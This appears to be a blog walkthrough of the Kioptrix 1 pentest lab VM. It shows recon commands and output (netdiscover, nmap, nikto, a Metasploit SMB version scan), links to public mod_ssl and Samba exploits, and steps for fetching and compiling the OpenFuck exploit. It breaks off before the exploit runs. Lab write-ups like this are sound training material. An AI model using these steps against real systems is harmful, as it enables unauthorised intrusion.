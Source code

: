 ```yaml
---
layout: post
title: Kioptrix 1 Walkthrough
---
```


Kioptrix VMs are meant as entry level pentest challenges where the goal is to get root privileges.
Download [Kioptrix 1 here](http://www.kioptrix.com/blog/test-page/) or from [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#download).

<h3>Finding the Host</h3>

Using <code>netdiscover</code> the IP address of the target is found.

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># netdiscover -r 192.168.201.0/24 -i eth0

 Currently scanning: Finished!   |   Screen View: Unique Hosts        
 19 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1140
 _________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname  
 -------------------------------------------------------------------------
 192.168.201.1   00:50:56:c0:00:08     14     840  VMware, Inc.
 192.168.201.2   00:50:56:fa:93:9d      3     180  VMware, Inc.
 <span class="out-line">192.168.201.132 00:0c:29:75:c4:41      1      60  VMware, Inc.</span>
 192.168.201.254 00:50:56:e2:0c:13      1      60  VMware, Inc.
</pre>

<h3>Enumeration</h3>

An <code>nmap</code> scan shows 6 open ports on the host:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nmap -sV -p- -T4 192.168.201.132

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-07 17:02 EST
Nmap scan report for 192.168.201.132
Host is up (0.000076s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:75:C4:41 (VMware)
</pre>

<h3>Enumeration:80/tcp http</h3>

A <code>nikto</code> scan yields some useful information on the host's webserver:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nikto -h 192.168.201.132
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.201.132
+ Target Hostname:    192.168.201.132
+ Target Port:        80
+ Start Time:         2017-12-12 15:01:51 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ ... (other nikto output) ...
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<span class="out-highlight">+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</span>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ ... (other nikto output) ...
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-12-12 15:02:16 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
</pre>

Searching online for CVE-2002-0082 produces a corresponding PoC exploit: [Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow](https://www.exploit-db.com/exploits/764/)

<h3>Enumeration:139/tcp netbios-ssn</h3>

The samba version running on the host is identified using MSF's <code>smb_version</code> module:

<pre class="console-output">
<u>msf</u> auxiliary(<span class="prompt">smb_version</span>) > run

<span class="dir"><b>[*]</b></span> 192.168.201.132:139   - Host could not be identified: Unix (<span class="out-highlight">Samba 2.2.1a</span>)
<span class="dir"><b>[*]</b></span> Scanned 1 of 1 hosts (100% complete)
<span class="dir"><b>[*]</b></span> Auxiliary module execution completed
</pre>

Searching online for this samba version also yields an exploit:<br> [Samba < 2.2.8 (Linux/BSD) - Remote Code Execution](https://www.exploit-db.com/exploits/10/)<br>
MSF: [Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open)

<h3>Exploitation:80/tcp http</h3>

A copy of the OpenFuckV2.c is copied into the current dir, which contains [instructions on how to update](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and compile it. Once updated, trying to compile in Kali Linux produces some errors using <code>gcc</code>:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># searchsploit -m 764
Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit
    URL: https://www.exploit-db.com/exploits/764/
   Path: /usr/share/exploitdb/platforms/unix/remote/764.c

Copied to: /root/764.c

<span class="prompt">root@kali</span>:<span class="dir">~</span># ... (Steps Update OpenFuck Exploit) ...

<span class="prompt">root@kali</span>:<span class="dir">~</span># gcc -o OpenFuck 764.c -lcrypto
<b>764.c:645:24:</b> <span class="prompt">error:</span> ‘<b>SSL2_MAX_CONNECTION_ID_LENGTH</b>’ undeclared here (not in a function); did you mean ‘<b>SSL_MAX_SSL_SESSION_ID_LENGTH</b>’?
  unsigned char conn_id[<span class="prompt">SSL2_MAX_CONNECTION_ID_LENGTH</span>];
                        <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span>
                        <span class="out-green">SSL_MAX_SSL_SESSION_ID_LENGTH</span>
<b>764.c:</b> In function ‘<b>read_ssl_packet</b>’:
<b>764.c:847:19:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_ERROR</b>’ undeclared (first use in this function); did you mean ‘<b>SSL_METHOD</b>’?
    if ((buf[0] == <span class="prompt">SSL2_MT_ERROR</span>) && (rec_len == 3)) {
                   <span class="prompt">^~~~~~~~~~~~~</span>
                   <span class="out-green">SSL_METHOD</span>
<b>764.c:847:19:</b> <span class="out-teal"note:</span> each undeclared identifier is reported only once for each function it appears in
<b>764.c:</b> In function ‘<b>get_server_hello</b>’:
<b>764.c:979:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_HELLO</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (*(p++) != <span class="prompt">SSL2_MT_SERVER_HELLO</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_master_key</b>’:
<b>764.c:1071:10:</b> <span class="prompt">error:</span> dereferencing pointer to incomplete type ‘<b>EVP_PKEY {aka struct evp_pkey_st}</b>’
  if (pkey<span class="prompt">-></span>type != EVP_PKEY_RSA) {
          <span class="prompt">^~</span>
<b>764.c:</b> In function ‘<b>get_server_verify</b>’:
<b>764.c:1148:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_VERIFY</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_VERIFY</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_finished</b>’:
<b>764.c:1160:11:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_CLIENT_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_FINISHED</b>’?
  buf[0] = <span class="prompt">SSL2_MT_CLIENT_FINISHED</span>;
           <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
           <span class="out-green">SSL3_MT_FINISHED</span>
<b>764.c:</b> In function ‘<b>get_server_finished</b>’:
<b>764.c:1173:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_DONE</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_FINISHED</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_DONE</span>
</pre>

This can be solved by running <code>apt-get install libssl1.0-dev</code>.
